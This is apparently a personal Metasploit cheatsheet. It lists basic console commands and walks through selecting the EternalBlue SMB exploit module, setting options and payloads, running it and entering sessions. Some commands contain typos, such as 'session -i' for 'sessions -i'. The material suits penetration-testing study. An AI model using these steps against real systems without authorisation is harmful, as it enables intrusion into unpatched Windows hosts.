 # Metasploit
*Personal cheatsheet*<br/> <br/>
## Basic commands
```help```<br/>
```search```&emsp;Search modules<br/>
```use```&emsp;Select a module<br/>
```info```&emsp;Display info about a specific module<br/>
```options```&emsp;List options you can set<br/>
```advanced```&emsp;Display advanced options for a specific module<br/>
```show```&emsp;Show options in a specific category<br/>
## First steps w/ Metasploit
### ```Eternalblue```
```search eternalblue```<br/>
```use exploit/windows/smb/ms17_010_eternalblue``` to select the module<br/>
```show options```<br/>
```set``` to set a value to a module options<br/>
&nbsp;&nbsp;&nbsp;&nbsp;*ex:* ```set SMBPass username```<br/>
```show payloads``` to list compatible payloads<br/>
```set PAYLOAD <index>``` to select the desired payload, ```index``` *being the id of the playload from* ```show payloads```<br/>
```exploit``` to run the exploit once you've ocnfigured all the desired options<br/>
```sessions``` to list all active sessions<br/>
```session -i <index>``` to go into interactive mode with a session, ```index``` *being the id of the session from* ```sessions```<br/>
